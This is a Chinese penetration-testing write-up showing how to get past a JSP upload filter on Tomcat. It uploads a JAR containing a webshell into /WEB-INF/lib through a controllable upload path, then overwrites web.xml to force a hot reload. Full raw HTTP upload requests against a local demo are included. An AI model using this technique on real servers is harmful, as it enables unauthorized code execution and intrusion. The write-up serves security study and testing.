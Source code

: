 

# 奇安信攻防社区 - 记一次过滤 jsp 的文件上传

### 记一次过滤 jsp 的文件上传

在某次对某单位进行渗透测试时，遇到一个上传点，网站是 java 写的，但是上传 jsp 和 jspx 时会被 waf 拦截，但由于上传路径可控，经过不懈努力最终成果拿到 shell，于是写这篇文章记录一下

在某次对某单位进行渗透测试时，遇到一个上传点，网站是 java 写的，但是上传 jsp 和 jspx 时会被 waf 拦截，但由于上传路径可控，经过不懈努力最终成果拿到 shell，于是写这篇文章记录一下

# 0x01 环境介绍

由于原来网站已经关闭了，所以我这几简单写了一个 demo，实现了指定路径上传文件，但是过滤了 jsp 后缀名

![image-20231013151725099](assets/1698990430-20e8a3b1a0df544affaa8d67d3f182be.jpg)

![image-20231013151756181](assets/1698990430-29ec824fdf8bc17b2dd5f49fd75fe74d.jpg)

当我们上传文件时，会自动上传到 upload 目录下

![image-20231013152338129](assets/1698990430-c0cf94d2df402f11d10efec924aa33d2.jpg)

![image-20231013152406844](assets/1698990430-0105c9d6db3989c2983e33744939301d.jpg)

如果后缀名为 jsp 或者 jspx 则会被拦截

![image-20231013152259434](assets/1698990430-00f5b1753931cece9916fcb0178758ef.jpg)

# 0x02 前置知识

在 Java web 应用程序中`/WEB-INF`目录通常是的一个特定目录，它用于存放与应用程序配置、安全性和资源管理相关的文件和目录，并且该目录下的资源文件无法直接通过浏览器访问

![image-20231016145725677](assets/1698990430-794533adfce7c0c3b0a470f259e1245b.jpg)

`/WEB-INF`下的一般有固定的名称和结构。

-   `/WEB-INF/web.xml` 配置文件，它包含有关应用程序的部署和配置信息。这包括 servlet 映射、过滤器配置、监听器配置、会话管理等。
-   `/WEB-INF/classes` 目录通常用于存放 Java 类文件，包括 servlet 类和其他应用程序特定的 Java 类。这些类文件在应用程序中可以被加载和调用。
-   `/WEB-INF/lib` 通常用于存放应用程序所需的外部 Java 库（JAR 文件）。这些库文件包含应用程序依赖的代码，例如框架、工具库和第三方库，应用程序的类加载器将从该 JAR 文件中加载相应的资源。

当使用某个类时，Web 应用程序将尝试从/WEB-INF/classes 加载该类，如果找不到，则尝试从/WEB-INF/lib 下的 JAR 文件中搜索它。

在 JAR 文件的`/META-INF/resources`目录中可以用来放置 JSP 的静态资源，**在 servlet3.0 协议规范中，包含在 jar 文件 /META-INFO/resources/ 路径下的资源是可以直接访问的**。

例如在 Java web 应用程序的`/WEB-INF/lib`中添加一个 jar 包，在其`/META-INF/resources/`中有一个`index.html`

![image-20231016152434929](assets/1698990430-657148fbc432536308b7068f198772af.jpg)

启动 tomcat，请求的 URL 包含`/demo/index.html` ，会使用这个 JAR 文件中的`/META-INF/resources/index.html`，因为实际上在/demo/目录下不存在 index.html。

![image-20231016152534755](assets/1698990430-e9756c9f837a740d5df649508b50db52.jpg)

# 0x03 利用过程

既然可以上传至任意路径，那么我们可以把 webshell 放在`/META-INFO/resources/`路径下打包成 jar 包，然后上传 jar 包到`/WEB-INF/lib`中

首先使用 idea 新建一个项目，生成器选择`Jakarta EE`，模板选择`库`

![image-20231016172844622](assets/1698990430-cc265ef2303788da79550fec2167e5e9.jpg)

然后生成的模板中`demo2\src\main\resources`下新建目录`META-INF/resources`，然后在其下面放入 webshell，这里我以打印一句话作为示例

![image-20231016173424559](assets/1698990430-21366c11a114c8001edd71aaf3576403.jpg)

然后运行`mvn package`构建项目并打包成 jar 包

![image-20231016174429357](assets/1698990430-0a6733bc717f5c26bbbd30ee91a6e9ff.jpg)

然后发包将生成的 jar 上传至`/WEB-INF/lib`

```php
POST /demo/upload?uploadDirectory=/WEB-INF/lib HTTP/1.1
Host: 127.0.0.1:8082
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary67oVSNngE4QsAxoK
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Sec-Fetch-User: ?1
Cookie: JSESSIONID=3989AD45810239F4B46930C472A48DB7; 
Content-Length: 229

------WebKitFormBoundary67oVSNngE4QsAxoK
Content-Disposition: form-data; name="file"; filename="test.jar"
Content-Type: application/octet-stream

PK\x03\x04
......(省略)
\x00\x00\x08\x00\x00y\x8dPW\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00 \x00\x00\x00META-2\x00\x00V\x04\x00\x00\x00\x00
------WebKitFormBoundary67oVSNngE4QsAxoK--
```

（下图中上传文件使用的是 yakit 语法）

![image-20231016174505275](assets/1698990430-cc93a5928987438eb42627219556cb2e.jpg)

上传成功，但是现在直接访问`http://127.0.0.1:8082/demo/shell.jsp`会提示 404

![image-20231016174703678](assets/1698990430-16f1491bb0e76abd12cf6329341d12f9.jpg)

这是因为在 Tomcat 中重新加载位于`lib`目录中的 JAR 文件通常需要重启 Tomcat 服务器，因为`lib`目录中的 JAR 文件是在 Tomcat 启动时加载的，而不是在运行时可以动态重新加载的。

然而有一种方法：

默认情况下，`autoDeploy` 设置为 `true`，代表 tomcat 默认开启热部署，**一旦 web 应用的 web.xml 文件的时间戳发生变化（创建时间，修改时间或访问时间发生变化），tomcat 就会重新加载应用。**

那怎样使 web.xml 文件时间戳发生变化呢？可以通过上传一个同名同内容的文件覆盖它，即在/WEB-INF 目录下上传相同内容的 web.xml

```php
POST /demo/upload?uploadDirectory=/WEB-INF HTTP/1.1
Host: 127.0.0.1:8082
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary67oVSNngE4QsAxoK
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Sec-Fetch-User: ?1
Cookie: JSESSIONID=3989AD45810239F4B46930C472A48DB7; 
Content-Length: 229

------WebKitFormBoundary67oVSNngE4QsAxoK
Content-Disposition: form-data; name="file"; filename="web.xml"
Content-Type: application/octet-stream

<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
         version="4.0">        
</web-app>
------WebKitFormBoundary67oVSNngE4QsAxoK--
```

![image-20231018162707269](assets/1698990430-62efae460be09192fdcc7ef321fa91db.jpg)

当上传成功后可以观察到 tomcat 日志信息，成功重新加载应用

![image-20231018162750501](assets/1698990430-e029831547bb8b302f427c07b432a184.jpg)

再次访问`http://127.0.0.1:8082/demo/shell.jsp`也成功解析

![image-20231018162856743](assets/1698990430-f55e47ea0bd062e27540fd1eb7fd66b8.jpg)

此外，由于可以该改变 web.xml 中的内容，所以如果可以寻找到未授权的危险类也可以直接在 web.xml 中添加路由调用对应的类。
